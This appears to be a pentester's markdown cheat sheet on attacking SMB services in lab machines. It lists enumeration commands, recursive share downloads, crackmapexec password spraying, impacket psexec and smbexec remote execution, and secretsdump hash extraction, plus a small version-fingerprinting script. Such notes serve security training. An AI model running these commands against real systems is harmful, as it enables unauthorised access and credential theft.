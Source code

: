 # SMB  
---------


### enum4linux:

```bash
python3 /opt/enum4linux-ng/enum4linux-ng.py 10.10.10.100
```

### rpclient:

```bash
rpcclient 10.10.104.212 -U ""    #anonymous authentication
```

### smbmap:

```bash
smbmap -H 10.10.10.100 -r   #unauthenticated
smbmap -H 10.10.10.100 -u SVC_TGS -p password
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p password 
```

if we get an error like this 

```bash
smbmap -H atom.htb             

[!] Authentication error on atom.htb
```

we can try some random username and password:

```bash
smbmap -H atom.htb -u ci -p cib                            
```


### smbclient:

```bash
smbclient -L \\10.10.10.100\\   #list shares unauthenticated
smbclient //10.10.10.100/Replication #connect unauthenticated
smbclient //10.10.10.100/Replication -U ""%"" #connect unauthenticated
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS #connect authenticated; will prompt for password
smbclient //10.10.10.100/C$ -U active.htb\\administrator
```

download everything:
```bash
recurse ON
prompt OFF 
mget *
```


### crackmapexec:

```bash
cme smb 10.10.10.10 -u username -p password #password spray or checking for valid creds

cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares   #list shares

crackmapexec smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus

crackmapexec smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o READ_ONLY=false ##dumpallfiles
```

### impacket:

```bash
python3 psexec.py active.htb/administrator@10.10.10.100

python3 smbexec.py active.htb/administrator@10.10.10.100
```

If the the IPC$ share has read access use impacket to enumerate usernames:
```bash
IPC$   READ ONLY	Remote IPC
```

```bash
python3 /opt/wintools/impacket/examples/lookupsid.py anonymous@10.10.251.139
```

If the ADMIN$ share has read and write access use secretsdump.py to extract hashes:
```bash
python3 /opt/wintools/impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat@10.10.168.11 
```

### mounting smb shares:
windows:
```bash
sudo mount -t cifs //10.10.10.10/Backups /mnt/backup

sudo mount -t cifs -o 'user=t.thompson,password=' //10.10.10.182/Data /mnt/data
```


## checking smb version using wireshark 

if the victim is old and uses smbv1 the smbclient tool does not connect throwing protocol fail error, in that case add these lines under global settings in /etc/samba/sm.b.conf

```txt
client min protocol = CORE
client max protocol = SMB3
#client min protocol = SMB1
```

use this script to initiate a smb connection and capture the requests using wireshark to determine the smb version:

```bash
#!/bin/bash

if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tun0 src $rhost and port $rport -A -c 10 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```

in most cases enum4linux-ng gave me the correct smb version.

https://4pfsec.com/manually-enumerating-smb-version/

- [ ] Include setting up an anonymous smb share